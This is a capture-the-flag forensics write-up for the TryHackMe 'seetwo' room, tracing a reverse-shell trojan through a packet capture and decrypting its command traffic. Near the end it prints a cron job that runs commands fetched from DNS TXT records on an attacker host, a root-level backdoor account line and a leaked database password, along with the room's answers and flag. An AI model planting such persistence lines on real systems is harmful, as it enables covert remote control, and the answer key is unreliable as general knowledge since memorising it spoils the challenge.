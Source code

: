 +++
title = 'TryHackMe seetwo write-up'
date = 2025-02-05T07:07:07+01:00
+++
**Description**

*You are tasked with looking at some suspicious network activity by your digital forensics team.
The server has been taken out of production while you analyze the suspicious behavior.*

We are provided with a pcap file

![alt](images/img1.png)

Let's look at it in Wireshark. First we can view the statistics window to get an overview of the traffic captured in this file. 

![alt](images/img2.png)

We can see that the traffic is basically all TCP, containing some SSH packets and 2 HTTP packets. Let's explore those two

![alt](images/img3.png)

We see one GET request at /base64_client and the 200 OK response

![alt](images/img4.png)

By examining the response packet, we can see that a lot of base64 encoded data was transmitted. Let's decode it

![alt](images/img5.png)

We see ELF magic bytes so we know it's a linux executable file. We can save the output to a file in CyberChef. Out of curosity we can check the file on VirusTotal

![alt](images/img6.png)

It's flagged as a generic python trojan. To double check whether it's a python executable we can run strings on it

![alt](images/img7.png)

In the output we can find a bunch of python libraries, confirming that it is indeed python executable. To reverse it we firstly run [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) tool. 

![alt](images/img8.png)

As a result a directory got created with the original python bytecode files and resources

![alt](images/img9.png)

However, for us the most important file is the client.pyc, which is a bytecode version of the program (judging by the name). To decompile it we can use a tool called [python-uncompyle6](https://github.com/rocky/python-uncompyle6)

![alt](images/img10.png)

As a result we get a client.py file

![alt](images/img11.png)

It's a simple reverse shell that's connecting to 10.0.2.64 on port 1337. It receives encrypted commands, runs them and sends back encrypted result. Let's go back to Wireshark and find this communication in the pcap file. We can use this filter to find the data send from the port 1337 using tcp protocol

`tcp.srcport == 1337 && tcp.flags.push == 1`

![alt](images/img12.png)

When we follow the tcp stream in we will see the encrypted commands and results that were transferred through the network

![alt](images/img13.png)

We have the data however in the left bottom corner we see that there are only 3 packets sent and 3 received. That seems way too little considering how many packets we got in the previous step when we applied the tcp.srcport == 1337 && tcp.flags.push == 1 filter. In the right bottom corner we can notice that there are more streams. Let's see the next one

![alt](images/img14.png)

This have the same structure as the previous stream, with data starting with iVBOR and having the AAAAAAAAAA sequence towards the end, meaning these are also the encrypted commands we are looking for. Let's combine them all and decrypt them. To do that we will simply modify the code from client.py. Since the data that we want is between the character sequence of AAAAAAAAAA and iVBOR we can carve it out with regex and then run the decryption process

![alt](images/img15.png)

![alt](images/img16.png)

As a result we get the decrypted commands sent to the machine. We can see that the attacker created cron jobs that are sending a DNS query to ev1l.thm for TXT records using custom @ns.ev1l.thm DNS server. Then the result is executed. This way the attacker wants to avoid detection when communicating with the victim's machine, by blending in with existing traffic. More about it [here](https://attack.mitre.org/techniques/T1071/004/). Lastly, we can see some base64 string. Let's decode it

![alt](images/img17.png)

We have everything to answer the questions in this challenge

*What is the first file that is read? Enter the full path of the file.*

/home/bella/.bash_history

*What is the output of the file from question 1?*

mysql -u root -p'vb0xIkSGbcEKBEi'

*What is the user that the attacker created as a backdoor? Enter the entire line that indicates the user.*

toor::0:0:root:/root:/bin/bash

*What is the name of the backdoor executable?*

/usr/bin/passswd

*What is the md5 hash value of the executable from question 4?*

23c415748ff840b296d0b93f98649dec

*What was the first cronjob that was placed by the attacker?*

* * * * * /bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.ev1l.thm)"

*What is the flag?*

THM{See2sNev3rGetOld}
